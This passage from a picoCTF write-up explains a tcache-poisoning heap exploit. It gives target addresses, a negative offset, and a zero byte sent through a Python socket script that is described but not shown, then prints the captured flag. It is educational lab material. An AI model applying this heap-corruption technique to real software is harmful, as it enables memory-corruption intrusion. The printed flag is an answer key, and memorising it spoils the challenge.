

So we need to overwrite the address in the tcache to point to the second freed chunk which will be 0x603800 rather than 0x603890 at address 0x602088. The address of our first call of <malloc> has been 0x6034a0, so we need to subtract the tcache address from that to determine the value we want to write to `address`. The value we want write to `value` will simple be zero as we want to replace the 0x90 by 0x00.

As we can not really send a 0x00 byte from the command line (a zero will be interpreted as 48 as that is it's ASCII encoding) we will have to use python to solve this. We can use the sockets API to connect to the server, first receive two lines of promt data then sending our -5144, then receiving another line of prompt and sending our zero byte. THen we will finally receive our flag:

```
$ python3 exploit.py 
Received b'lag is: picoCTF{53be92758865dfd2779fa96526dbd0a3}\n'
```

# Resources
https://hackmd.io/@5Mo2wp7RQdCOYcqKeHl2mw/ByTHN47jf  
https://www.youtube.com/watch?v=0jHtqqdVv1Y&list=PL-ymxv0nOtqoUdeKoKMxZBlfd9pD3mAah&index=3  
